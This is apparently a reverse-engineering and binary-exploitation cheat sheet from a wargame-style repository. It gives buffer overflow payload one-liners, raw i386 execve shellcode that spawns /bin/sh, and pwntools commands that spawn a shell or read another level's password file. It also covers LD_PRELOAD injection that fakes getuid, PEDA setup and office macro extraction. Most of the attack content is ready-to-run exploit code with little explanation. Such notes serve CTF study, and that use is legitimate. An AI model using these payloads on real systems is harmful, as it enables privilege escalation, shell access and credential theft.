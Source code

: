 # 🥷 Reverse Engineering

- [Binary ninja](#binary-ninja)
- [GCC](#gcc)
- [Lib Injection](#lib-injection)
- [Macro Office PPTM](#macro-ffice-pptm)
- [OverFlow](#overflow)
- [Shellcode](#shellcode)

## Overflow
### Basic
```
(python -c "import struct; print('A' * (100 - 0) + struct.pack('<I', 0xffffffff))")
```

### Shellcode
```
(python -c "import struct; print('\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80' + 'A' * (100 - 21) + struct.pack('<I', 0xffffffff))")
```

## Shellcode
### Cat
```
python -c "import pwn; shell = pwn.asm(pwn.shellcraft.i386.linux.cat('/home/users/level05/.pass')); print(shell); print(len(shell))"
```

### Exec sh 1
```
python -c "import pwn; shell = pwn.asm(pwn.shellcraft.i386.linux.sh()); print(shell); print(len(shell))"
```

### Exec sh 2
```
\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80
21
```

## GCC
### Get env address
```
x/10s **(char***)&environ
```
### Peda
#### Install
```
git clone https://github.com/longld/peda.git ~/.peda
echo "source ~/.peda/peda.py" >> ~/.gdbinit
echo "DONE! debug your program with gdb and enjoy"
```

## Binary ninja
### Scrap code from html

```javascript
let result = '';
[...document.querySelectorAll('.LinearDisassemblyLine')].forEach(parent_elmt => {
  [...parent_elmt.children].forEach(children_elmt => {
    result += children_elmt.textContent
  });
  result +=  '\n'
});
console.log(result);
```

## Lib Injection
- Recreate getuid function
```C
uid_t	getuid(void)
{
	return (4242);
}
```
- compile
```
gcc -shared -fpic lib.c -o libnike.so -m32
```
- run and inject
```
LD_PRELOAD=./libnike.so ./exec
```

## Macro Office PPTM
### Install
```
sudo pip3 install oletools
```
### Decompress PPTM
```
olevba  -c file.pptm
```
